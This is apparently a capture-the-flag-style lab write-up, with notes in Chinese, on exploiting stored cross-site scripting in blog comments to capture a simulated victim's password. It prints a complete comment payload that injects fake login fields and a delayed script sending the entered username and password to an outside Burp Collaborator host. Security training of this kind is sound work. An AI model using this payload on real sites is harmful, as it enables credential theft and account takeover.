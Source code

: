 # Lab: Exploiting cross-site scripting to capture passwords

This lab contains a stored XSS vulnerability in the blog comments function. A simulated victim user views all comments after they are posted. To solve the lab, exploit the vulnerability to exfiltrate the victim's username and password then use these credentials to log in to the victim's account. 

## XSS
* 要偷 username password，依照我對題目的了解我實在是不知道這個 lab 可能被應用的場景，因為是需要 victim 自已輸入自己的 username password 在 post 頁面，指能說我想像不到 QQ
```
payload = csrf=wJv7G1643mm3a5pU6q9Bq08ZSzWGtrXp&postId=7&comment=</p><form><input+id%3d"username"+name%3d"username"><input+id%3d"password"+name%3d"password"></form><script>setTimeout(function(){new+Image().src="http://lzota7y9z1zuwpbf1rl8vigil9rzfo.burpcollaborator.net/?username="%2bdocument.getElementById("username").value%2b"%26password%3d"%2bdocument.getElementById("password").value;},+5000)%3b</script>&name=123&email=123%40123.com&website=http%3A%2F%2Ffake.com
```
* 要記得用 setTimeout 歐，因為需要等一下使用者輸入一下他的帳號密碼 w